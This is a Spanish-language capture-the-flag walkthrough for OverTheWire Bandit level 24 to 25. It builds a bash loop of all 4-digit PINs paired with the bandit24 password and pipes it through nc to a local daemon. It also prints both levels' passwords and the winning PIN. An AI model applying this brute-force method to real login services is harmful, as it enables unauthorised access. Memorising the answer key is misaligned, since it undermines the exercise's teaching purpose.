

# Bandit Nivel 24 --> Nivel 25

## Objetivo 
Para este ejercicio nos dice que hay un demonio(daemon) escuchando en el puerto 30002 y que nos puede dar la contrase de bandit25 si nosotros le damos la contraseña de bandit24 y un numero secreto de 4 digitos pincode. 
Indica tenemos quen probar todas las combinaciones posibles desde el 0000 hasta el 10000 para poder pasarle el pincode al daemon. Nos dice que esto se le llama Fuerza-Bruta

## Comandos usados 
for pincode in {0000..9999}; do echo $pincode; done
nc localhost 30002

## Evidencia

## Explicaciòn
Para resolver este nivel, necesito crear un scrip que me permita iterar desde el ping code 0000 hasta el 9999 y pasarle la contraseña de bandit24 por el puerto 30002 al mismo tiempo, para poder lograr estos usamos del bucle for en bash. 

Si nos intentamos conectar por nc o ncat al local host por el puerto 30002 nos aparece el siguiente mensaje. 

bandit24@bandit:~$ ncat localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.

En la cual nos solicita que pongamos la contraseña y luego el pincode correcto para que nos de la siguiente llave. 

Para esto tenemos que crear un directorio dentro de bandit en la ruta tmp para poder crear un archivo ya que no tenemos permisos desde el home : paso 1 : new_dir=$(mktemp -d) paso 2: cd $new_dir

Creamos el bucle for que nos itereara desde el 0000 hasta el 9999 siguiendo un orden especifico como 0001 0002 0003 0004 .... : for pincode in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $pincode"; done > pincodes.txt

Esto nos crea un archivo llamado pincodes.txt con las combinaciones para pincode junto con la contraseña de bandit24, si lo filtramos de la siguiente manera, obtendremos unicamente el texto que nos da la contraseña para el siguiente nivel. 

bandit24@bandit:/tmp/tmp.y3WTWcW06g$ cat pincodes.txt | nc localhost 30002 | grep -vE "Wrong|Please" 
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

La combinacion correcta de pincode para este ejercicio es : 8208
Ya que en teoria su usamos : echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 8208" | nc localhost 30002 --> Nos seguira dando el mismo resultado. 

## Contraseña para el siguiente nivel 
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
